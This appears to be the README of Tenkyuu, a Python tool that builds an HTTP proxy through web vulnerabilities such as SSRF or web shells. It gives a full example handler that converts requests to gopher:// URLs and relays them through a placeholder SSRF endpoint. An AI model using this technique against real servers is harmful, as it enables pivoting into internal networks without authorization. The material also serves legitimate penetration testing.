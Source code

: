 # Tenkyuu

A framework to create a HTTP Proxy through web vulnerabilities (SSRF, WebShell, etc.) quickly. 

## Usage

Firstly, install the package from pypi. 

```bash
pip install tenkyuu
```

Then code your proxy rules. For example:

```python
from tenkyuu import Tenkyuu, internal_server_error
import requests

app = Tenkyuu(verbose = True)

def ssrf_proxy(req):
    # The req param is an object that contains the information of HTTP Request(s)

    # The req.gopherize() function will convert HTTP Request Packet 
    # to `gopher://...` protocol automatically
    gopherized_url = req.gopherize() 
    
    # Assume that the server has a ssrf vulnerability entrance
    # and supports gopher:// protocol, responsing with data 
    # in JSON format
    resp = requests.get("https://vulnerable.com/ssrf.php", params = {
        "url": gopherized_url
    }).json()

    if resp["status"] != "OK":
        return internal_server_error()

    return resp["data"]

if __name__ == "__main__":
    app.run(
        handler = ssrf_proxy,
        host = "127.0.0.1", 
        port = 8088
    )
```

Run the script and set your HTTP Proxy to `127.0.0.1:8088` in the application you will use.

## License

Apache License